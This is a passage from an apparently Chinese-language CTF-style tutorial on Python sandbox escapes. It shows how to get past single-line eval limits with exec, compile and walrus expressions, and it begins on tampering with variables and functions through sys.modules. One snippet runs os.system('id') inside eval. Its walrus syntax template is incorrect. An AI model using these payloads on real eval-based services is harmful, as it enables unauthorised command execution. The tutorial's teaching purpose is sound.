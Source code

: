## 绕过多行限制
绕过多行限制的利用手法通常在限制了单行代码的情况下使用,例如 eval, 中间如果存在；或者换行会报错。
```python
>>> eval("__import__('os');print(1)")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1
    __import__('os');print(1)
```
### exec
exec 可以支持换行符与`;`
```python
>>> eval("exec('__import__(\"os\")\\nprint(1)')")
1
```

### compile
compile 在 single 模式下也同样可以使用 \n 进行换行, 在 exec 模式下可以直接执行多行代码. 
```python
eval('''eval(compile('print("hello world"); print("heyy")', '<stdin>', 'exec'))''')
```
### 海象表达式
海象表达式是 Python 3.8 引入的一种新的语法特性，用于在表达式中同时进行赋值和比较操作。

海象表达式的语法形式如下：
```python
<expression> := <value> if <condition> else <value>
```
借助海象表达式，我们可以通过列表来替代多行代码：
```python
>>> eval('[a:=__import__("os"),b:=a.system("id")]')
uid=1000(kali) gid=0(root) groups=0(root),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(wireshark),122(bluetooth),134(scanner),142(kaboxer)
[<module 'os' (frozen)>, 0]
```


## 变量覆盖与函数篡改
在 Python 中，sys 模块提供了许多与 Python 解释器和其环境交互的功能，包括对全局变量和函数的操作。在沙箱中获取 sys 模块就可以达到变量覆盖与函数擦篡改的目的.

sys.modules 存放了现有模块的引用, 通过访问 `sys.modules['__main__']` 就可以访问当当前模块定义的所有函数以及全局变量

```py
>>> aaa = 'bbb'
>>> def my_input():
...     dict_global = dict()
...     while True:
...       try:
...           input_data = input("> ")
...       except EOFError:
...           print()
...           break
...       except KeyboardInterrupt:
...           print('bye~~')
...           continue
...       if input_data == '':
...           continue
...       try:
...           complie_code = compile(input_data, '<string>', 'single')
...       except SyntaxError as err:
...           print(err)
...           continue
...       try:
...           exec(complie_code, dict_global)
```